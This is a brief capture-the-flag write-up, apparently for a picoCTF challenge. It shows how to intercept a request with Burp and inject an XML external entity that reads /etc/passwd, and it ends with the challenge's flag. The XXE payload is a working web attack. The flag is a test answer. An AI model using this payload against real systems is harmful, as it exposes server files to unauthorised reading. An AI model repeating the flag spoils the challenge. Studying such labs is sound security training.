

Using Burp proxy to intercept the request and add this external XML entity.
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
And add a reference to the external entity by `&xxe`

Flag: `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`